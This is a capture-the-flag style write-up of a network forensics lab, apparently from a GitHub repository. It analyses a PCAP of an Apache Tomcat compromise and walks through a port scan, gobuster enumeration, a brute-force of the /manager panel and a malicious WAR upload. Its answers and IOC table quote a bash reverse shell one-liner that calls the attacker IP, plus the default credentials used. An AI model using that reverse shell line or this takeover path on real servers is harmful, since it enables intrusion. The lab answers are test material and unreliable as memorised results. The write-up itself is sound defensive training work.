








# Tomcat Takeover Lab

------------------------------

### Title:- In this lab we will analyze network traffic using Wireshark's custom columns, filters, and statistics to identify suspicious web server administration access and potential compromise.
### Category:- Network Traffic Analysis
### Scenario:- The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.

-----------------------------

### 1). Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

For this task i applied filter for tcp syn packets because it is useful for finding connection initiations and scans,

We can see from above screenshot that huge number of SYN packets coming from source ip 14.0.0.120 that indicates potential scanning behaviour.

### Answer:- 14.0.0.120

### 2). Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?

Use any ip lookup platforms such as virustotal, ipinfo to gather information about ip addresses,

After searching the identified ip address we can see this ip address is belongs to china.

### Answer:- China

### 3). From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?

Let's apply following filter to find http packtes coming from source ip 14.0.0.120,

#### ip.src == 14.0.0.120 && http

We can see lots of packets use port 8080 it means webserver is running locally.

### Answer:- 8080

### 4). Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

For this task filter for GET requests that comes from soure ip 14.0.0.120 and filter user-agent as column.

We can see in user-agent field that lots of requests coming from gobuster and it is well known directory enumeration tool.

### Answer:- gobuster

### 5). After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?

We can see interesting directory /manager that looks related to admin panel.

### Answer:- /manager

### 6). After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?

Use following filter to find all http GET requests on /manager directory,

We can see from above screenshot that attacker target tomcat manager (/manager/html) to bruteforce login credentials but at last packet we found correct username and password that the attacker successfully loged in.

### Answer:- admin:tomcat

### 7). Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

This time we will filter POST request instead of GET because the attacker uploaded file on the server,

We can see in filename field inside the content-Disposition header that attacker uploaded a WAR (Web Application ARchive) file with the intent of establishing a reverse shell.

### Answer:- JXQOZY.war

### 8). After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

Inspect the packet and follow TCP stream to find whole conversation,

We can see that attacker use cron jobs to maintain persistence.

### Answer:- /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'

------------------------------------

## IOC (Indicator of Compromise)

|     Indicator         |    Value                                                |
|-----------------------|---------------------------------------------------------|
|  Source IP            |  14.0.0.120                                             |
|  Originating Country  |  China                                                  |
|  Local Port           |  8080                                                   |
|  Enumeration Tool     |  gobuster                                               |
|  Enumerated Directory |  /manager                                               |
|  Login Credentials    |  admin:tomcat                                           | 
|  Malicious File       |  JXQOZY.war                                             |
|  Persistence Command  |  /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1' |

-----------------------------

## Incident Summary

In this PCAP investigation a potential network scanning activity performed from source ip 14.0.0.120 later multiple open ports were detected as a result of the attacker's active scan, port 8080 provides access to the web server admin panel and then attacker attempted to enumerate and uncover directories and files on our web server using gobuster and found /manager directory related to admin panel after accessing the admin panel, the attacker tried to brute-force the login credentials and successfully able to logged in inside the admin panel then attacker attempted to upload a file "JXQOZY.war" with the intent of establishing a reverse shell after successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine using cron jobs.

--------------------------

## MITRE ATT&CK Mapping

|    Technique            |    Id      |
|-------------------------|------------|
|  Network Scanning       |  T1046     |
|  Directory Enumeration  |  T1595.003 |
|  Login Bruteforce       |  T1110.001 |
|  Reverse Shell          |  T1505.003 |
|  Persistence            |  T1053.003 |

